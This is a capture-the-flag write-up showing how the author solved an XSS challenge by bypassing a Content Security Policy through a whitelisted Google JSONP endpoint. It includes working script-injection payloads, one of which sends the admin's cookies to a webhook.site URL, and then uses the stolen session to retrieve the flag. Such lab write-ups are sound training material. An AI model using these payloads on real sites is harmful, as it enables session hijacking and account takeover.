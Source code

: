 ```yaml
---
date: "2021-04-27T00:00:00Z"
title: CAT CTF.ae Web Writeups
tags : ["Web", "XSS", "CSP"]
---
```




### Foreword




- Took some time to solve this challenge,learnt alot in the process.
hope you also grab something new from it :)




# Challenge 


![](/img/cat/challenge.png)


## Solution

visiting the link provided [http://web.ctf.ae:8812/](http://web.ctf.ae:8812/) - will be offline soon XD


we are met with this friendly page 


![](/img/cat/default.png)


filling the form and clicking on submit we are met with this response


![](/img/cat/toadmin.png)


so far we can gather that it's an XSS related challenge,hence the hint in the challenge description.


- for a while i thought of coming up with a xss payload that steals the admin cookies,probably the flag set as a cookie,

trial one failed though 


![](/img/cat/test.png)


we get nothing on both our webhook instance,on preview nothing too


![](/img/cat/noexec.png)


why?, because we triggered the site's CSP (content security policy) a security feature in most web apps that mitigates execution of malicious scripts  among other attacks ... [Read More](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)


![](/img/cat/csp.png)


- We need to bypass the CSP first inorder to proceed with our attack in which we need to steal the admin session cookies

decided to recon on the csp using Google's Evaluator

[https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and we get a hit ... 


![](/img/cat/cspcheck.png)


- we found a bypass, [accounts.google.com](accounts.google.com) is whitelisted

and another hint 


```
accounts.google.com -> accounts.google.com is known to host JSONP endpoints which allow to bypass this CSP.
```

on further research i bumped onto 

[https://github.com/zigoo0/JSONBee](https://github.com/zigoo0/JSONBee) where i found a readily prepared list of jsonp payloads that would lead to a csp bypass and hence xss

tried with 

`"><script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`

for our case and it fired 


[other payloads](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)


yaay! we got XSS 


![](/img/cat/cspbypass.png)


![](/img/cat/confirmed.png)


now we have to figure out a way to steal admin's cookies,then exfiltrate them to a web that we can control,
for this case i chose to use


[webhook.site](https://webhook.site)


using the instance provided we can craft a payload 


i used 

`"><script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://webhook.site/e923b472-7002-4b02-902d-61f0eedebxxxx/'.concat(document.cookie))"></script>`


as


![](/img/cat/final.png)


submitted that,checking our instance we got some request from the Admin


![](/img/cat/endpoint.png)


Wait! no flag as expected, but atleast we got a new endpoint,or rather the url being used by the admin 

we can use the session cookie we found,set it then we can review tickets this time as the admin

but first let's change

`http://web.ctf.ae:8812/support_ticket/f1400c65-ea9f-48db-9394-0fda02b690db?displayFlag=false` the `displayFlag=false`  parameter to `displayFlag=True`


then we can visit the link to retrieve the flag
...



NB:// using the support ticket with the xss payload executes,so create any random description then review as admin


and doing so we got the flag



![](/img/cat/flag.png)


> Flag : CTFAE{JSONAreTheBestTypeOfBees}

....

Thank you for reading :)



